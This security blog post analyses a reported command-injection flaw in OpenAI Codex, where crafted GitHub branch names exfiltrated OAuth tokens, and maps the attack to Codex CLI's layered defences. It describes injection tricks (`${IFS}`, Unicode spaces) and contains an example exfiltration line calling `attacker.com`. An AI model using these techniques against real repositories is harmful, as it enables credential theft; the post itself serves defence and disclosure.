


# The Branch Name That Stole Your Tokens: Anatomy of the Codex GitHub Token Vulnerability — and What It Teaches About Agent Credential Defence


---

In December 2025, BeyondTrust's Phantom Labs research team reported a critical command injection vulnerability to OpenAI that affected every Codex surface — the ChatGPT web interface, CLI, SDK, and IDE extension [^1]. The flaw was elegant in its simplicity: the GitHub branch name parameter in Codex's task creation request was passed unsanitised to a shell environment, allowing an attacker with repository write access to inject arbitrary commands that exfiltrated GitHub OAuth tokens from the agent's container [^2].

OpenAI classified the issue as Critical Priority 1 and fully patched it by 5 February 2026 [^3]. No evidence of in-the-wild exploitation was found [^4]. But the vulnerability's real significance lies not in the patch timeline — it lies in what it reveals about credential isolation in agentic coding systems and how Codex CLI's current defence stack addresses each link in the kill chain.

## The Kill Chain: From Branch Name to Token Theft

The attack exploited a gap between what a developer sees in a branch name and what a shell interprets.

### Stage 1 — Payload Injection via Branch Name

An attacker with write access to a shared repository creates a branch whose name contains injected shell commands. GitHub itself blocks literal spaces in branch names, but Bash's `${IFS}` (Internal Field Separator) evaluates to a space at runtime, neatly sidestepping that constraint [^5]. Phantom Labs also demonstrated the use of the Unicode Ideographic Space (U+3000) — a character visually indistinguishable from a normal space in most UIs but treated as a valid identifier character by Git [^2].

### Stage 2 — Unsanitised Shell Execution

When a developer (or an automated trigger like `@codex` in a PR comment) created a Codex task referencing that branch, the backend's task creation endpoint reflected the branch name into the container's environment setup script without escaping shell metacharacters [^5]. The injected commands executed with the same privileges as the Codex agent process.

### Stage 3 — Token Exfiltration

Inside the container, the agent's GitHub User Access Token — the same OAuth token Codex uses to authenticate with GitHub — was accessible. The injected payload could read the token from the local `auth.json` file and transmit it to an attacker-controlled endpoint [^2]. With that token, an attacker gained read/write access to the victim's entire codebase and could move laterally across any repositories the token's scopes permitted [^1].



### The Scaling Problem

Phantom Labs demonstrated that the attack was automatable: a single poisoned branch in a shared repository could compromise every developer who subsequently created a Codex task against it [^6]. In enterprise environments where Codex had broad repository permissions, one branch name could cascade into organisation-wide credential compromise.

## OpenAI's Remediation

OpenAI's response unfolded across three phases [^3][^7]:

| Date | Action |
|------|--------|
| 16 December 2025 | Phantom Labs reports vulnerability |
| 23 December 2025 | Initial hotfix deployed |
| 30 January 2026 | Comprehensive update: improved input validation, stronger shell escaping, tighter OAuth token scope and lifetime controls |
| 5 February 2026 | Classified Critical Priority 1; full remediation confirmed |

The remediation addressed all three stages of the kill chain:

1. **Input validation** — branch name parameters are now sanitised before reaching any shell context, blocking metacharacters, backticks, and `${IFS}` expansion [^7].
2. **Shell hardening** — command construction in the execution environment was refactored to use parameterised invocations rather than string interpolation [^7].
3. **Token scope restriction** — GitHub OAuth tokens issued during task execution now carry tighter scopes and shorter lifetimes, reducing blast radius even if a future bypass surfaces [^4].

## Mapping the Kill Chain to Codex CLI's Defence Stack

The vulnerability affected Codex's cloud task runner. But the same class of attack — untrusted input reaching a shell — is relevant to any agent that executes commands in developer environments. Codex CLI's local execution model and defence stack provide layered protection at each stage.

### Layer 1 — Kernel Sandbox (Blast Radius Containment)

Codex CLI executes all tool calls inside an OS-level sandbox (Seatbelt on macOS, Landlock + seccomp-bpf on Linux, restricted tokens + DACLs on Windows) [^8]. Even if an attacker managed to inject commands through a crafted input, the sandbox constrains:

- **Filesystem access** to the project directory and explicitly configured `writable_roots`
- **Network access** to allow-listed endpoints only (or fully denied in `full` sandbox mode)
- **Process creation** to approved binaries

A token exfiltration payload like `curl attacker.com/steal` would fail at the network boundary unless the attacker's endpoint was explicitly allow-listed.

### Layer 2 — Shell Environment Policy

Codex CLI's `shell_environment_policy` configuration controls which environment variables are visible to subprocess shells [^9]. Sensitive credentials can be excluded entirely from the agent's execution environment:

```toml
# config.toml
[shell_environment_policy]
inherit = ["PATH", "HOME", "LANG"]
# GitHub tokens, AWS keys, etc. are NOT inherited
```

This reduces the attack surface: even if command injection succeeds, the injected commands cannot access credentials that were never present in the environment.

### Layer 3 — PreToolUse Hooks (Input Validation)

Codex CLI's hook pipeline allows organisations to inspect and reject tool calls before execution [^10]. A PreToolUse hook can validate shell command arguments against injection patterns:

```json
{
  "hooks": [
    {
      "event": "PreToolUse",
      "tool": "shell",
      "command": ["python3", "/opt/hooks/validate-shell-args.py"],
      "timeout_ms": 3000
    }
  ]
}
```

The validation script receives the proposed command as JSON and can reject calls containing shell metacharacters, `${IFS}` patterns, or suspicious Unicode characters in arguments derived from external input (branch names, PR titles, issue bodies).

### Layer 4 — Network Allow-Lists (Exfiltration Prevention)

Even if injection bypasses input validation and the sandbox allows some network access, `requirements.toml` network rules can restrict outbound connections to known endpoints [^11]:

```toml
# requirements.toml (organisation-managed)
[network]
allow = [
  "api.openai.com",
  "github.com",
  "api.github.com",
  "registry.npmjs.org"
]
```

An exfiltration attempt to `attacker.com` is blocked at the managed proxy layer regardless of what the injected command attempts.

### Layer 5 — PostToolUse Hooks (Output Audit)

PostToolUse hooks can scan command output for credential patterns before the agent processes results [^10]. If a command unexpectedly outputs token-shaped strings, the hook can redact them or abort the session:

```json
{
  "hooks": [
    {
      "event": "PostToolUse",
      "tool": "shell",
      "command": ["python3", "/opt/hooks/scan-output-for-secrets.py"],
      "timeout_ms": 5000
    }
  ]
}
```

### Defence-in-Depth Summary



## Lessons for Enterprise Agent Deployment

The Phantom Labs disclosure crystallises three principles that apply beyond this specific vulnerability:

### 1. Treat All Repository Metadata as Untrusted Input

Branch names, commit messages, PR titles, issue bodies, and file paths are all attacker-controllable strings in shared repositories. Any agent workflow that reflects these values into shell commands, configuration files, or prompts without sanitisation is vulnerable to injection [^5].

**Action:** Audit your AGENTS.md files and custom hooks for any workflow that passes repository metadata to shell commands. Use parameterised APIs where available.

### 2. Credential Isolation Is Not Optional

The vulnerability's blast radius was determined by the OAuth token's scope. Broad-scope tokens in agent execution environments convert any command injection into credential theft.

**Action:** Configure `shell_environment_policy` to exclude all credentials from the agent's environment. Use short-lived, narrowly scoped tokens. For GitHub access, prefer fine-grained personal access tokens with repository-specific permissions over classic tokens with organisation-wide scope [^12].

### 3. Network Egress Control Is the Last Line of Defence

Input validation can be bypassed. Sandbox escapes, while rare, are not impossible. But if the agent cannot reach an attacker-controlled endpoint, token exfiltration fails regardless of how the injection was achieved.

**Action:** Enforce `requirements.toml` network allow-lists in all environments. In high-security contexts, use `full` sandbox mode with network access completely disabled.

## The Broader Context

The Phantom Labs disclosure was part of a coordinated patching round that also addressed a separate ChatGPT code execution data exfiltration flaw discovered by Check Point Research, where the runtime could silently transmit chat messages and uploaded files to external servers [^7]. Together, these vulnerabilities demonstrated that both input validation (the Codex flaw) and output control (the ChatGPT flaw) require attention in agentic AI systems — the attack surface is bidirectional.

As BeyondTrust's Director of Research Fletcher Davis observed: "AI coding agents are not just productivity tools. They are live execution environments with access to sensitive credentials and organisational resources. Because these agents act autonomously, security teams must understand how to govern AI agent identities to prevent command injection, token theft, and automated exploitation at scale" [^1].

The vulnerability has been fully remediated. But its lessons about input sanitisation, credential isolation, and network egress control remain the foundation of any serious agent security posture — and Codex CLI's five-layer defence stack provides the mechanisms to implement all three.

---

## Citations

[^1]: BeyondTrust, "OpenAI Codex Command Injection Vulnerability," BeyondTrust Blog, March 2026. [https://www.beyondtrust.com/blog/entry/openai-codex-command-injection-vulnerability-github-token](https://www.beyondtrust.com/blog/entry/openai-codex-command-injection-vulnerability-github-token)

[^2]: Hackread, "OpenAI Codex Vulnerability Allowed Attackers to Steal GitHub Tokens," March 2026. [https://hackread.com/openai-codex-vulnerability-steal-github-tokens/](https://hackread.com/openai-codex-vulnerability-steal-github-tokens/)

[^3]: The Hacker News, "OpenAI Patches ChatGPT Data Exfiltration Flaw and Codex GitHub Token Vulnerability," March 2026. [https://thehackernews.com/2026/03/openai-patches-chatgpt-data.html](https://thehackernews.com/2026/03/openai-patches-chatgpt-data.html)

[^4]: SecurityWeek, "Critical Vulnerability in OpenAI Codex Allowed GitHub Token Compromise," March 2026. [https://www.securityweek.com/critical-vulnerability-in-openai-codex-allowed-github-token-compromise/](https://www.securityweek.com/critical-vulnerability-in-openai-codex-allowed-github-token-compromise/)

[^5]: SiliconANGLE, "OpenAI Codex vulnerability enabled GitHub token theft via command injection, report finds," March 2026. [https://siliconangle.com/2026/03/30/openai-codex-vulnerability-enabled-github-token-theft-via-command-injection-report-finds/](https://siliconangle.com/2026/03/30/openai-codex-vulnerability-enabled-github-token-theft-via-command-injection-report-finds/)

[^6]: CybersecurityNews, "OpenAI Codex Vulnerability Allows Attackers to Steal GitHub Access Tokens," 2026. [https://cybersecuritynews.com/openai-codex-command-injection-vulnerability/](https://cybersecuritynews.com/openai-codex-command-injection-vulnerability/)

[^7]: CSO Online, "OpenAI patches twin leaks as Codex slips and ChatGPT spills," 2026. [https://www.csoonline.com/article/4152393/openai-patches-twin-leaks-as-codex-slips-and-chatgpt-spills.html](https://www.csoonline.com/article/4152393/openai-patches-twin-leaks-as-codex-slips-and-chatgpt-spills.html)

[^8]: OpenAI, "Sandbox – Codex," OpenAI Developers, 2026. [https://developers.openai.com/codex/concepts/sandboxing](https://developers.openai.com/codex/concepts/sandboxing)

[^9]: Daniel Vaughan, "Codex CLI Shell Environment Policy: Controlling What Your Agent's Subprocesses Can See," Codex Knowledge Base, April 2026. [https://codex.danielvaughan.com/2026/04/28/codex-cli-shell-environment-policy-subprocess-secrets-defence/](https://codex.danielvaughan.com/2026/04/28/codex-cli-shell-environment-policy-subprocess-secrets-defence/)

[^10]: OpenAI, "Features – Codex CLI," OpenAI Developers, 2026. [https://developers.openai.com/codex/cli/features](https://developers.openai.com/codex/cli/features)

[^11]: Daniel Vaughan, "Codex CLI Network Security: requirements.toml Enforcement, Landlock, and Air-Gapped Deployments," Codex Knowledge Base, March 2026. [https://codex.danielvaughan.com/2026/03/31/codex-cli-network-security-requirements-toml/](https://codex.danielvaughan.com/2026/03/31/codex-cli-network-security-requirements-toml/)

[^12]: GitHub, "Managing your personal access tokens," GitHub Docs. [https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens)
